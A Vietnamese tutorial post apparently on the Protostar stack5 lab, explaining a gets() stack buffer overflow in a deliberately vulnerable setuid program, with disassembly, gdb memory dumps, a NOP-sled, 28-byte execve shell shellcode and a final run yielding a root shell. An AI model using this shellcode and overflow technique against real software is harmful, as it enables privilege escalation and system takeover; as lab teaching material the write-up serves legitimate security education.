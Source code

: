 ```yaml
---
layout: post
title: stack5
---
```

Trong bài trước, chúng ta đã biết cách thay đổi giá trị `eip` của caller để điều hướng chương trình sau khi return từ callee.
Trong bài này, thay vì chỉ điều hướng đến những hàm có sẵn, chúng ta sẽ inject một đoạn mã vào bộ nhớ của chương trình và thực thi đoạn mã này.
Trước tiên, hãy xem source code của chương trình stack5:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
stack5 tương tự stack4. Chương trình này cũng dùng `gets` để nhập giá trị cho `buffer`. Kỹ thuật làm tràn bộ nhớ trong stack4 cũng sẽ được dùng ở đây. Sau đây là asm code của `main` trong stack5.
```asm
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
`buffer` sẽ chiếm bộ nhớ `esp + 0x10` đến `esp + 0x4f`.
Như đã giải thích trong bài trước, theo sau `buffer` là padding, `ebp` và `eip` của caller.
Chúng ta sẽ giả thiết padding là 8 byte.
(điều này đúng với đại đa số các lần chạy thử.)
Như vậy, tổng số byte cần nhập vào là 64 + 8 + 4 + 4 = 80 byte.

Giá trị cần ghi đè vào `eip` của caller sẽ là một địa chỉ trên stack, và là một trong những địa chỉ từ `esp + 0x10` đến `esp + 0x5f` đã lưu 80 byte.
Trong ví dụ đầu tiên sau đây, byte `\xcc` sẽ được dùng để thử nghiệm.
Cụ thể, byte `\xcc` là một lệnh có ý nghĩa như 1 breakpoint.
Khi instruction có mã này được chạy, chương trình sẽ thông báo đã chạm đến breakpoint.
Dùng gdb để kiếm tra bộ nhớ, ta thấy giá trị của `esp` là `0xbffff750`.
Do đó, ta sẽ chọn giá trị mới cho `eip` là từ `0xbffff760` đến `0xbffff79f`.
Sau đây là 1 ví dụ:
```bash
python -c "print '\xcc' * 64 + '\x60\xf7\xff\xbf' * 4" > input.txt
stack5 < input.txt
```
Bộ nhớ sau khi gọi hàm `gets` sẽ như sau. Phân biệt bằng màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">eip của caller</span>.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff790:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff7a0:     0xbffff760      0xbffff760      0xbffff760      <span style="color:orangered">0xbffff760</span>
</pre>
Sau khi được nạp giá trị mới, <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi ngay khi stack5 return.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
<span style="color:orangered">0xbffff760</span>:     0x<span style="color:yellow">cc</span>cccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff770:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff780:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff7a0:     0xbffff760      0xbffff760      0xbffff760      0xbffff760

<span style="color:orangered">0xbffff760</span>:     <span style="color:yellow">int3</span>
</pre>
```bash
user@protostar:~$ stack5 < input.txt
Trace/breakpoint trap
```

Với 64 byte của `buffer`, chúng ta cần tìm hoặc viết chương trình có kích cỡ trong phạm vi này.
Các chương trình mẫu này có thể được tìm thấy trên internet với từ khóa shellcode.
Bản chất của các shellcode chính là mã máy, mà nếu disassemble ta sẽ được asm code tương tự như asm code của stack5.
Sau đây là đoạn shellcode dài 28 byte dùng để chạy chương trình /bin/dash trong linux:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```
Lưu ý, đoạn chương trình này cần được chạy từ đầu đến cuối.
Nếu biết chính xác vị trí trên bộ nhớ lưu shellcode này, ta sẽ gán địa chỉ đó cho `eip` của caller.
Một kỹ thuật khác cho phép chọn địa chỉ `eip` một cách linh hoạt hơn là dùng chuỗi `nop` (có opcode `0x90`).
Đây là một trong số ít lệnh có thể dùng mà không sợ shellcode không bị lỗi hoặc không thể chạm đến.
Kỹ thuật này có tên là NOP-sled với nguyên lý là sử dụng chuỗi `nop` phía trước shellcode chính, sau đó ghi đè `eip` bằng 1 địa chỉ chứa `nop`.
Khi CPU chạy lênh `nop`, nó sẽ chỉ đơn giản là bỏ qua và chuyển tới lệnh kế tiếp. Việc này sẽ tiếp diễn cho đến CPU chạm tới shellcode.
Nếu không dùng `nop` và địa chỉ mới của `eip` cũng không chạm được tới shellcode, chương trình sẽ báo Illegal instruction và kết thúc.

Với ví dụ trên, ta có 36 byte `nop`, theo sau là 28 byte shellcode. Cụ thể như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
(cat input.txt ; cat) | stack5
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804958c</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482c4</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804958c</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048409</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080483f0</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080483fb</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     0x080483f0      0x00000000      0xbffff828      <span style="color:orangered">0xb7eadc76</span>
</pre>

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff770:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff780:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x6850c031</span>      <span style="color:aqua">0x68732f2f</span>      <span style="color:aqua">0x69622f68</span>
0xbffff790:     <span style="color:aqua">0x89e3896e</span>      <span style="color:aqua">0xb0c289c1</span>      <span style="color:aqua">0x3180cd0b</span>      <span style="color:aqua">0x80cd40c0</span>
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      <span style="color:orangered">0xbffff780</span>
</pre>

Phân biệt <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi ngay khi stack5 return.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      0x90909090
<span style="color:orangered">0xbffff780</span>:     0x<span style="color:yellow">90</span>909090      0x6850c031      0x68732f2f      0x69622f68
0xbffff790:     0x89e3896e      0xb0c289c1      0x3180cd0b      0x80cd40c0
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      0xbffff780
</pre>

Sau đây là memory dưới dạng asm instruction.
Phân biệt <span style="color:orangered">địa chỉ eip mới</span>, <span style="color:yellow">lệnh</span> được thực thi ngay khi stack5 return, và <span style="color:springgreen">shellcode</span>.
<pre class="memory">
<span style="color:orangered">0xbffff780</span>:     <span style="color:yellow">nop</span>
0xbffff781:     nop
0xbffff782:     nop
0xbffff783:     nop
<span style="color:springgreen">0xbffff784</span>:     <span style="color:springgreen">xor    eax,eax</span>
<span style="color:springgreen">0xbffff786</span>:     <span style="color:springgreen">push   eax</span>
<span style="color:springgreen">0xbffff787</span>:     <span style="color:springgreen">push   0x68732f2f</span>
<span style="color:springgreen">0xbffff78c</span>:     <span style="color:springgreen">push   0x6e69622f</span>
<span style="color:springgreen">0xbffff791</span>:     <span style="color:springgreen">mov    ebx,esp</span>
<span style="color:springgreen">0xbffff793</span>:     <span style="color:springgreen">mov    ecx,eax</span>
<span style="color:springgreen">0xbffff795</span>:     <span style="color:springgreen">mov    edx,eax</span>
<span style="color:springgreen">0xbffff797</span>:     <span style="color:springgreen">mov    al,0xb</span>
<span style="color:springgreen">0xbffff799</span>:     <span style="color:springgreen">int    0x80</span>
<span style="color:springgreen">0xbffff79b</span>:     <span style="color:springgreen">xor    eax,eax</span>
<span style="color:springgreen">0xbffff79d</span>:     <span style="color:springgreen">inc    eax</span>
<span style="color:springgreen">0xbffff79e</span>:     <span style="color:springgreen">int    0x80</span>
</pre>
Trước khi chạm tới shellcode được lưu bắt đầu từ `0xbffff784`, 4 lệnh `nop` sẽ được chạy.

Cách exploit stack5 đầy đủ có thể được xem tại cuối bài.
Lưu ý với những chương trình như /bin/dash, người dùng có thể tiếp tục nhập lệnh vào tương tự như bash hay command prompt.
Để bạn có thể nhập vào, hãy dùng lệnh cat và pipe std input output sang stack5 như sau.
```bash
(cat input.txt ; cat) | stack5
```
input.txt được mở bởi cat và chuyển tiếp sang stack5, sau đó cat tiếp tục để mở để nhập thêm lệnh.
Sau khi chạy shellcode và mở /bin/dash thành công, bạn có thể thử nhập vào các lệnh cơ bản như cd, ls, hay mkdir.

Chạy lệnh sau đây trên bash sẽ cho bạn biết bạn có quyền gì với chương trình đang được chạy.
```bash
whoami
```
Một số những chương trình, trong đó stack5 là một ví dụ, sẽ được thực thi với quyền root, kể cả người chạy chương trình là user thông thường.
Quyền root là quyền cao nhất, cho phép bạn xem những file chứa thông tin bảo mật như password.
Do vậy nếu những chương trình này có lỗ hổng, hacker sẽ chiếm được quyền cao nhất để đánh cắp thông tin hoặc phá hoại.
Đây chính là hacking.

## Ref
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
